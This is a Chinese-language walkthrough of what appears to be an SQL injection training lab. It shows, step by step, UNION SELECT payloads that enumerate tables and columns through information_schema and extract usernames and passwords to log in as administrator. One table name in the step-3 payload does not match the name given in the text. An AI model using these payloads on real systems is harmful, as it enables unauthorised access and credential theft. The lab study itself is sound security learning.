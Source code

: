 # 题意
![](pic/3-4.png)
列出数据库信息，找到administrator的密码并且登录。
# 解题思路
step1:

确定原始查询的列数和数据类型，payload如下：
```
'+UNION+SELECT+'ab','cd'--
```
可以确定列数为2且两列都与string类型兼容

step2:

列出数据表名，payload如下：
```
'+UNION+SELECT+NULL,table_name+FROM+information_schema.tables--
```
展示出的表名数据较多，目标表名为

![](pic/user.png)

step3:
获取users_oiywfu数据表的列的相关数据，payload为：
```
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='oiywfu'--
```
获取的数据如下：
![](pic/colums.png)

step4:
找到用户名和密码相关的列名并获取，payload如下：
```
'+UNION+SELECT+username_rzvuhj,+password_flipqf+FROM+users_oiywfu--
```
step5:

找到密码并登录

![](pic/pswd.png)
# 知识点
